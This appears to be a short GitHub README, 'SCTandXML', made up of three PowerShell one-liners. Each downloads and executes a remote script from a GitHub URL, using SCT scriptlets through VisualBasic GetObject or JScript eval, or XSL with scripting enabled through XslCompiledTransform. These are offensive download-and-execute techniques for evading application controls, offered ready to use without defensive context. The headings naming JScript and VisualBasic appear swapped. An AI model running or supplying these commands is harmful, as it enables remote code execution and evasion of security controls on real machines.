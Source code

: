 # SCTandXML

SCT via Microsoft.JScript:

[Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:https://raw.githubusercontent.com/analyticsearch/SCTandXML/master/script.sct').Exec(0)

SCT via Microsoft.VisualBasic:

[Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');[Microsoft.JScript.Eval]::JScriptEvaluate('GetObject("script:https://raw.githubusercontent.com/analyticsearch/SCTandXML/master/script.sct").Exec()',[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())

XML via Transform Object:

$s=New-Object System.Xml.Xsl.XsltSettings;$r=New-Object System.Xml.XmlUrlResolver;$s.EnableScript=1;$x=New-Object System.Xml.Xsl.XslCompiledTransform;$x.Load('https://raw.githubusercontent.com/analyticsearch/SCTandXML/master/script.xsl',$s,$r);$x.Transform('https://raw.githubusercontent.com/analyticsearch/SCTandXML/master/script.xml','z');del z;
